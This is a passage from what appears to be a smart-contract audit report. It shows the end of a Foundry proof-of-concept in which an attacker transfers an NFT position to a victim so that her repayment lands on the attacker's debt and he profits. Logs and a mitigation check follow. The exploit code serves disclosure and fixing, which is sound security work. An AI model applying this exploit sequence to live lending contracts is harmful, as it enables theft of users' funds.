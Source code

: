 ```solidity
            attackerToken.approve(address(nftPositionManager), type(uint256).max);
            INFTPositionManager.AssetOperationParams memory paramsSupply =
            INFTPositionManager.AssetOperationParams(address(attackerToken), address(0), 100 ether, 0, dummyData);
            nftPositionManager.supply(paramsSupply);

            // The attacker borrow tokenA from `attackerPool`
            INFTPositionManager.AssetOperationParams memory paramsBorrow =
            INFTPositionManager.AssetOperationParams(address(tokenA), attacker, 1 ether, 0, dummyData);
            nftPositionManager.borrow(paramsBorrow);

            // The attacker tranfer the NFT with id = 2 to Alice
            nftPositionManager.transferFrom(attacker, alice, 2);
            vm.stopPrank();
        }

        // Alice observed the last NFT is her NFT with id = 1
        // so she repaid to the NFT with id = 0
        // Because of the attack, the last NFT is now the NFT with id = 2
        {
            INFTPositionManager.AssetOperationParams memory paramsRepay =
            INFTPositionManager.AssetOperationParams(address(tokenA), address(0), 1 ether, 0, dummyData);

            vm.prank(alice);
            nftPositionManager.repay(paramsRepay);
        }

        vm.prank(attacker);
        attackerPool.withdrawSimple(address(tokenA), attacker, 1 ether, 0);
        console.log("Attacker tokenA balance after: %e", tokenA.balanceOf(attacker));
    }
}
```

Logs:
```bash
  Attacker tokenA balance before: 1e18
  Attacker tokenA balance after: 2e18
```

### Mitigation

Add a lending pool to the input parameters of `NFTPositionManager`'s lending functions, add check against this lending pool when `params.tokenId == 0`

```solidity
    if (params.tokenId == 0) {
      params.tokenId = _nextId - 1;
      if (msg.sender != _ownerOf(params.tokenId) || _positions[params.tokenId].pool != params.pool) revert NFTErrorsLib.NotTokenIdOwner();
    }
```
